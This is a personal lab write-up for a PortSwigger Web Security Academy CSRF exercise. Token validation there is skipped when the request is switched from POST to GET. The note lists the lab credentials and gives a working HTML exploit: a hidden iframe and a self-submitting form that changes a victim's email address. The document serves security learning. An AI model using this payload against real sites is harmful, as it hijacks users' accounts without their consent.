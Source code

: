 ```yaml
---
tags:
  - PRACTITIONER
Link:
  - "[[CSRF]]"
External Link:
  - https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method
---
```


# CSRF where token validation depends on request method
---

- **Info:**
	- Vulnerable parameter - email change functionality
	- Goal - exploit the CSRF vulnerability to change the email address of the victim user
	- creds - `wiener:peter`

-  **Analysis:**
	- In order for CSRF attack to be possible:
		- A relevant action - ***email change functionality***
		- Cookie-based session handling - ***session cookie***
		- No unpredictable request parameters - ***Request method can be changed to GET which doesn't require CSRF token.***

- **Testing CSRF Tokens:**
	1. Change the request method from POST to GET

 - **Craft exploit**
```html
<html>
	<body>
		<h1>Hello World!</h1>
		<iframe style="display: none" name="csrf-iframe"></iframe>
		<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="GET" target="csrf-iframe">
			<input type="hidden" name="email" value="anything@normal-user.net" >
		</form>
		<script>
			document.forms[0].submit();
		</script>
	</body>
</html>
```

